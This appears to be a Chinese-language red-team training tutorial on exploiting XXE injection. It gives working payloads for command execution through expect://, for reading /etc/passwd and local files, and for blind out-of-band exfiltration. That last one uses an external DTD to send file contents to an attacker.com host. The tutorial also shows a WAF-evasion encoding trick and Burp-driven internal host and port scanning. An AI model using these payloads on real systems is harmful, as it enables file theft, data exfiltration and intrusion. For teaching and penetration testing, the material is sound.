

# 护网行动红蓝攻防教程：P43：web安全-19.XXE利用 🎯


## 概述
在本节课中，我们将深入学习XML外部实体注入（XXE）漏洞的利用方法。课程将涵盖XXE的基本概念、有回显和无回显情况下的利用技巧，以及如何通过参数实体绕过限制进行文件读取和内网探测。

---

## 补充：PHP扩展与命令执行
上一节我们介绍了XXE的基本原理，本节中我们来看看一个特殊的利用场景。当目标服务器安装并加载了PHP的`expect`扩展时，可以通过XXE执行系统命令。

其利用方式是在XML中定义一个外部实体，实体内容指向`expect`扩展支持的协议和命令。例如，定义一个实体来执行`id`命令：
```xml
<!ENTITY xxe SYSTEM "expect://id">
```
在XML元素中引用此实体`&xxe;`，如果命令执行成功，将会回显当前用户的UID信息。

---

## 参数实体详解
之前我们遇到了一个问题：当尝试读取包含特殊字符的文件时，直接使用`CDATA`包裹会报错，提示“XML文档结构必须从头至尾包含在同一个实体中”。这是因为XML规范不允许内部实体和外部实体以这种方式结合使用。

为了解决这个问题，我们需要引入**参数实体**。

### 参数实体的声明与引用
参数实体与普通实体的主要区别在于声明时需要在实体名前添加百分号`%`，并且**只能在DTD中进行引用**。

以下是参数实体的两种声明方式：
*   **内部参数实体声明**：`<!ENTITY % 实体名 "实体值">`
*   **外部参数实体声明**：`<!ENTITY % 实体名 SYSTEM "URI">`

参数实体的引用方式为：`%实体名;`

### 参数实体与普通实体对比
为了更清晰地理解，我们来对比一下普通实体和参数实体：

| 实体类型 | 声明示例 | 引用位置 | 引用方式 |
| :--- | :--- | :--- | :--- |
| **内部普通实体** | `<!ENTITY normal "hello">` | XML文档内容 | `&normal;` |
| **外部普通实体** | `<!ENTITY file SYSTEM "file:///C:/windows/win.ini">` | XML文档内容 | `&file;` |
| **内部参数实体** | `<!ENTITY % param "word">` | 仅在DTD中 | `%param;` |
| **外部参数实体** | `<!ENTITY % external SYSTEM "http://127.0.0.1:9999/evil.dtd">` | 仅在DTD中 | `%external;` |

一个包含所有类型实体声明和引用的完整示例如下：
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY normal "hello">
    <!ENTITY file SYSTEM "file:///C:/windows/win.ini">
    <!ENTITY % param "word">
    <!ENTITY % external SYSTEM "http://127.0.0.1:9999/evil.dtd">
    %external;
]>
<test>&normal; &file;</test>
```
解析后，`&normal;`会输出“hello”，`&file;`会输出文件内容，而参数实体`%param;`和`%external;`则在DTD内部完成它们的逻辑（例如，引入外部DTD），不会直接输出到文档内容。

---

## 利用参数实体读取含特殊字符的文件
回到最初的问题：如何读取含有`<`、`>`、`&`等特殊字符的文件？我们的思路是，在DTD中构造一个实体，其值是将文件内容包裹在`CDATA`段中。

### 初次尝试与失败
我们可能会尝试在XML文档内部的DTD（称为**内部子集**）中直接拼接：
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///D:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY combined '%start;%file;%end;'>">
%all;
```
然后引用`&combined;`。但这会失败，并报错：“参数实体引用 ‘%start;’ 不能出现在DTD的内部子集的标记内”。XML规范规定，参数实体的**引用**不能直接出现在内部子集中。

### 成功方案：使用外部DTD（外部子集）
解决方案是将包含参数实体引用的部分放到一个**单独的、外部的DTD文件**中。这样，引用就发生在**外部子集**，从而绕过限制。

**操作步骤如下：**

1.  **创建外部DTD文件 (`evil.dtd`)**：
    ```xml
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///D:/test.txt">
    <!ENTITY % end "]]>">
    <!ENTITY all '<!ENTITY &#x25; combined "%start;%file;%end;">'>
    ```
    > **注意**：这里使用`&#x25;`（`%`的HTML实体编码）来绕过一些WAF的检测。

2.  **构造主XML攻击载荷**：
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE test [
        <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
        %dtd;
    ]>
    <test>&combined;</test>
    ```
**执行流程**：
1.  XML解析器遇到`%dtd;`，会去加载`http://attacker.com/evil.dtd`。
2.  外部DTD被加载后，其中的`%start;`、`%file;`、`%end;`被解析和拼接，最终声明了一个名为`combined`的普通实体。
3.  在XML文档内容中引用`&combined;`时，该实体的值（即被`CDATA`包裹的文件内容）被输出。

通过这种方式，我们成功地将文件内容读取并安全地嵌入到XML文档中。

---

## XXE漏洞概述与发现
上一节我们深入探讨了参数实体的利用，本节中我们来看看XXE漏洞的整体情况。

### 什么是XXE？
XXE（XML External Entity Injection）即XML外部实体注入。当应用程序在解析XML输入时，没有禁止加载外部实体，攻击者就可以构造恶意的XML内容，导致读取服务器敏感文件、执行系统命令、探测内网等危害。

### 如何发现XXE漏洞？
以下是发现XXE漏洞的基本思路：

1.  **寻找XML输入点**：尝试修改HTTP请求，将`Content-Type`头部改为`application/xml`，并提交XML格式的数据，观察应用是否正常解析并响应。
2.  **测试外部实体加载**：如果应用解析XML，则尝试在XML中定义并引用一个外部实体（例如，指向一个由你控制的服务器），观察你的服务器是否收到请求。如果收到，则证明存在XXE漏洞。

**探测示例**：
假设发现一个登录端点可能处理XML，可以发送如下数据：
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "http://your-vps-ip/">
]>
<user>&xxe;</user>
```
如果你的服务器收到了来自目标应用的HTTP请求，则漏洞存在。

---

## XXE漏洞利用场景
XXE的利用主要分为有回显和无回显（Blind XXE）两种情况。

### 有回显XXE利用
有回显时，攻击结果会直接显示在应用响应中。利用方式直接：

*   **文件读取**：使用`file://`协议。
    ```xml
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ```
*   **PHP文件读取**：使用`php://filter`协议读取文件源码。
    ```xml
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
    ```
*   **列目录**：部分XML解析库支持通过`file://`协议列目录（如Java中的`file:///C:/`）。

### 无回显（Blind）XXE利用 🕵️
大多数情况下，服务器处理XML后并无回显。此时需要利用**带外数据（OOB）**通道将数据外带出来。

**核心思路**：
1.  定义一个参数实体，用于读取目标文件（如`%file;`）。
2.  定义另一个参数实体，其值是一个向攻击者服务器发起HTTP请求的URL，并将文件内容作为请求参数的一部分（如`%send;`）。
3.  由于XML解析器几乎不会解析**同级**参数实体的内容，我们需要将它们**嵌套**在不同层级的参数实体中。
4.  同时，为了避免“参数实体引用不能出现在内部子集”的错误，我们需要将嵌套的实体定义放在**外部DTD**中。

**最终攻击载荷结构如下：**

1.  **外部DTD文件 (`evil.dtd`)**：
    ```xml
    <!ENTITY % file SYSTEM "file:///D:/test.txt">
    <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://attacker.com:8888/?p=%file;'>">
    %start;
    ```
    > **注意**：`%file;`中的特殊字符需要进行URL编码。

2.  **主XML攻击载荷**：
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE test [
        <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
        %dtd;
    ]>
    <test>test</test>
    ```
**执行结果**：攻击者服务器（监听8888端口）会收到一个GET请求，其查询参数`p`的值即为`D:/test.txt`文件的内容。

如果HTTP协议带不出数据，可以尝试使用**FTP协议**。使用Python快速开启一个FTP服务器：
```bash
python -m pyftpdlib -p 2121
```
然后在DTD中将URL改为`ftp://attacker.com:2121/%file;`。

---

## 利用XXE进行内网探测
除了文件读取，XXE还可以用于探测目标服务器所在内网的其他主机和端口。

### 主机存活探测
如果已知内网网段（如`192.168.1.0/24`），可以构造如下XXE载荷，并利用Burp Suite的Intruder模块进行爆破：
```xml
<!ENTITY xxe SYSTEM "http://192.168.1.§ip§/">
```
将`§ip§`设置为变量，取值从1到254。通过观察响应长度或响应时间，可以判断目标IP是否存活。无回显时，通过对比响应时间差异（存活主机响应快，不存在主机超时）来判断。



### 端口探测
在确认主机存活后，可以进一步探测其开放端口：
```xml
<!ENTITY xxe SYSTEM "http://192.168.1.195:§port§/">
```
将`§port§`设置为变量，加载常见端口字典进行爆破。

---

## 总结
本节课我们一起学习了XXE漏洞的高级利用技术。我们从PHP扩展命令执行入手，深入探讨了参数实体的概念及其在绕过DTD内部子集限制时的关键作用。我们详细分析了有回显和无回显XXE的利用方法，特别是如何通过嵌套参数实体和外部DTD构造OOB通道来外带数据。最后，我们还介绍了如何利用XXE进行内网主机和端口探测，拓展了漏洞的利用面。掌握这些技术，对于理解XXE漏洞的深度利用至关重要。